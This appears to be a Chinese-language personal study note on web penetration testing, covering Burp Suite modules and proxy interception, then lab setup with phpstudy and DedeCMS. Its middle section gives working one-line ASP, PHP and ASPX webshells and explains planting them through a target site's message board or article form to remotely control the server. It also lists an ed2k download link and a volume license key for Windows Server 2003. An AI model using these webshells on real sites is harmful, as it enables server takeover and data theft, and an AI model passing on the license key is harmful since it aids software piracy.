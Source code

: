 #burpsuite 的配置和使用
##主要模块
    1. Target(目标)——显示目标目录结构的的一个功能 
    2. Proxy(代理)——拦截HTTP/S的代理服务器，作为一个在浏览器和目标应用程序之间的中间人，允许你拦截，查看，修改在两个方向上的原始数据流。 
    3. Spider(蜘蛛)——应用智能感应的网络爬虫，它能完整的枚举应用程序的内容和功能。 
    4. Scanner(扫描器)——高级工具，执行后，它能自动地发现web 应用程序的安全漏洞。 
    5. Intruder(入侵)——一个定制的高度可配置的工具，对web应用程序进行自动化攻击，如：枚举标识符，收集有用的数据，以及使用fuzzing 技术探测常规漏洞。 
    6. Repeater(中继器)——一个靠手动操作来触发单独的HTTP 请求，并分析应用程序响应的工具。 
    7. Sequencer(会话)——用来分析那些不可预知的应用程序会话令牌和重要数据项的随机性的工具。 
    8. Decoder(解码器)——进行手动执行或对应用程序数据者智能解码编码的工具。 
    9. Comparer(对比)——通常是通过一些相关的请求和响应得到两项数据的一个可视化的“差异”。
    10. Extender(扩展)——可以让你加载Burp Suite的扩展，使用你自己的或第三方代码来扩展Burp Suit的功能。 
    11. Options(设置)——对Burp Suite的一些设置
    12. Alerts(警告)——Burp Suite在运行过程中发生的一写错误


##环境配置
BurpSuite是用java开发的，所以要想使用这个工具、需先安装JDK

> 设置浏览器代理

选择手动配置代理LAN或HTTP（火狐）：127.0.0.1 
端口 8080

##BurpSuite抓包
> 基本步骤

打开BurpSuite，Proxy->Options,确认代理配置正确
打开 intercept 确认intercept is on
在网页上输入，提交。此时intercept->Raw页上会显示post请求
ctrl+r或者右键send to repeater
打开Repeater->Raw，点击GO，右侧点击Render即可修改



#一句话木马
一句话木马短小精悍，能够远程控制，盗取数据
> 常见一句话木马

asp一句话木马：
　　	
	<%execute(request("value"))%>
php一句话木马：
　　	
	<?php @eval($_POST[value]);?>
aspx一句话木马：
　	
	<%@ Page Language="Jscript"%>
　	<%eval(Request.Item["value"])%>

>使用方法

 首先,找到数据库是asp格式的网站,然后,以留言板,或者发表文章的方式,把一句话添加到asp数据库，或者加进asp网页.
然后打开客户端(就是你电脑上面的那个htm文件),填上加入了一句话的asp文件,或者是asp网页,然后进入此网站服务器。

#Windows 2003 server的虚拟机安装和本地环境的搭建
> 镜像地址

	ed2k://|file|cn_win_srv_2003_r2_enterprise_x64_with_sp2_vl_cd1_X13-47314.iso|647686144|107F10D2A7FF12FFF0602FF60602BB37|/ 
> 序列号

	windows 2003 R2 Sp2 64位 企业版
	MR78C-GF2CY-KC864-DTG74-VMT73

> 使用phpstudy搭建本地环境

1.安装phpstudy，记住www文件夹（这是网站源码的存放路径）
2.在网页搜索DedeCMS下载网站源码，下载织梦dedecms，压缩包为tar.gz文件
3.解压文件，将原来www文件夹内的所有文件删除，将解压后uploads内的所有文件复制进去
4.确认phpstudy处于工作状态
5.在浏览器中输入
	http://localhost/ 
  打开网页安装界面
6.填上数据库密码
7.完成后登录后台（验证码必须用英文输入法）
8.然后即可对网站进行编辑


